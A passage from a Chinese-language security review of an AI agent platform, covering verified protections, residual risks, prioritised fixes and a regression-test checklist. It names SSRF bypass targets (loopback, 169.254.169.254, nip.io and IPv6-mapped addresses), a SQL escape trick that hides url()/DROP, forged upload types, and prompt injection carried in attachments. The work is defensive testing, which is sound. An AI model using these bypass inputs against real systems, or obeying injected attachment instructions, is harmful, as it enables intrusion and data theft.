实测通过的行为：越权创建对话 404；伪造 `?owner=` 无效；技能 / 连接器写入无令牌 401；私网连接器拒绝；`fetch_url` 重定向到 127.0.0.1 / 169.254.169.254 / 解析到回环的域名都拦；完全访问下创建定时任务仍弹确认，拒绝后不建任务；附件里的注入指令被忽略且不写记忆；子代理拿不到 `save_memory`；BI 反斜杠转义藏 `url()` / `DROP`、字符串里的注释符、`s3Cluster` 在服务端和适配器两层都拒，正常 `SELECT` 照常返回；预警首期失败推"检查没有完成"，连续 3 期 `NO_DATA` 推"检查失效"；通知链接从两台新设备打开都能看这条任务对话，设备身份不变；读不到主人的其他对话，改名、删除、续聊都 404；隔离实例的 trace 只写自己的数据目录。

剩余风险：`AGENT_ADMIN_TOKEN` 未配置时 IO-5 的令牌校验不生效（单机默认行为）；前端技能页与连接器面板还不会带 `x-admin-token`，配置令牌后这两处写入需要管理员走 API。旧的面板连接器没有 `untrustedAnnotations` 标记，需要删除重加。任务对话的 id 就是查看凭据，知道 id 的人都能读，等登录体系上线后再收紧；钉钉内置浏览器没有主人 cookie 时，主人自己点链接也只能看、不能续聊。

### P1（两周内）

C-1 卸载先于截断、C-2/C-3 历史与摘要、C-5 配额计数、IO-6 链接参数、IO-7 公式注入、IO-8 出站脱敏统一、IO-9 远程图片、T-7 风险名匹配、T-8 凭据文件、T-9 参数 schema 校验、S-3 CAS + runId、S-4 时区、S-5 失败治理、S-6 心跳、A-3 失败通知、A-4 重复通知间隔。

### P2

Prompt 缓存（时钟取整、固定工具集、消息段断点）、真实 token 用量回读、`is_error` 回传、取消信号透传到 `fetch_url`/`runShell`/确认等待、熔断 half-open、指标加工具名标签、OTLP 嵌套 span 与 `gen_ai.operation.name=execute_tool`、写操作幂等键与执行结果审计、补跑上限、tick 并发派发、阈值结构化、流缓冲 `gap` 事件、子代理时钟与独立工作区。

---

## 9. 测试补齐清单

现有相关测试（`schedule-*`、`notify-deliver`、`risk-hard-deny`、`system-prompt-contract`、`tool-error-observability` 等）覆盖了主路径。建议为每个 P0/P1 补一条回归锚点：

| 场景 | 断言 |
| --- | --- |
| 越权创建对话 | 带他人 id 的 `POST /chat/conversations` 返回 404 且对方文档不变 |
| 上传伪造类型 | `x.txt` + `text/html` 上传后 GET 的 `Content-Type` 为 `text/plain` 且带 `nosniff` |
| SQL 转义绕过 | 上文两条样例 `isReadOnlySql === false`；表函数白名单真值表 |
| 工具作用域 | 点名未授权服务器的工具 → 拒绝；`count_list_by_time` 传 write 级工具 → 拒绝 |
| SSRF | 302 跳到 `127.0.0.1`、`127.0.0.1.nip.io`、`[::ffff:7f00:1]` 均被拒 |
| 无人值守 | 定时运行调用 MCP write 工具 → 硬拒且审计记 `denied` |
| 检查失效 | 连续 N 期 `SOURCE_ERROR` / `NO_DATA` → 推送一条失效通知，之后按重复间隔节流 |
| 时区 | `timeZone=Asia/Shanghai` 的 `0 9 * * *` 在 UTC 服务器上于 01:00Z 触发 |
| 多实例 | 两个 tick 并发处理同一 due 任务 → 只执行一次、只投递一次 |
| 历史 | 10 轮未超预算对话 → 前 2 轮进入摘要而非消失 |
| 配额 | 默认配置下 `addDailyTokens` 记账 ≈ 上下文估算量级 |
| 注入定界 | 附件 / 记忆 / 摘要文本出现在 nonce 定界内且不在 system 角色 |

---

## 10. 参考来源

- LangChain — Deep Agents overview / Subagents / Context engineering（2026）：https://docs.langchain.com/oss/python/deepagents/overview 、https://docs.langchain.com/oss/python/deepagents/context-engineering
- LangChain Blog — *Context Engineering with Deep Agents: How To Remember Without Keeping Everything In Context*：https://www.langchain.com/blog/context-engineering-deep-agents-remember
- Anthropic — *Effective context engineering for AI agents*：https://www.anthropic.com/engineering/effective-context-engineering-for-ai-agents
- Anthropic — Context editing（`clear_tool_uses_20250919`）：https://platform.claude.com/docs/en/build-with-claude/context-editing
- Anthropic — *Writing effective tools for AI agents*：https://www.anthropic.com/engineering/writing-tools-for-agents
- MCP Python SDK — Handling errors：https://py.sdk.modelcontextprotocol.io/servers/handling-errors/
- Agentic Developer Cookbook — MCP server design：https://agenticdevelopercookbook.com/guidelines/implementing/networking/mcp-server-design
- AWS — *MCP tool design: Practical approaches and tradeoffs*：https://aws.amazon.com/blogs/machine-learning/mcp-tool-design-practical-approaches-and-tradeoffs/
- OWASP — MCP Tool Poisoning：https://community.owasp.org/attacks/MCP_Tool_Poisoning
- OWASP — AI Agent Security Cheat Sheet：https://cheatsheetseries.owasp.org/cheatsheets/AI_Agent_Security_Cheat_Sheet.html
- OWASP — Top 10 for Agentic Applications 2026：https://genai.owasp.org/download/52117/
- OWASP AISVS — C9.9 Data-Flow Isolation & Origin Enforcement：https://github.com/OWASP/AISVS
- OpenAI — Safety in building agents：https://developers.openai.com/api/docs/guides/agent-builder-safety
- Integrated Cognition — Background and Scheduled AI Agents：https://integratedcognition.com/agents/background-and-scheduled-agents
- agentsurface — Background Agents（幂等 / 批量窗口）：https://agentsurface.dev/docs/agents/background-agents
- AWS — *Building ambient agents with Amazon Bedrock AgentCore*：https://aws.amazon.com/blogs/machine-learning/building-ambient-agents-with-amazon-bedrock-agentcore-from-event-driven-signals-to-human-in-the-loop-workflows/
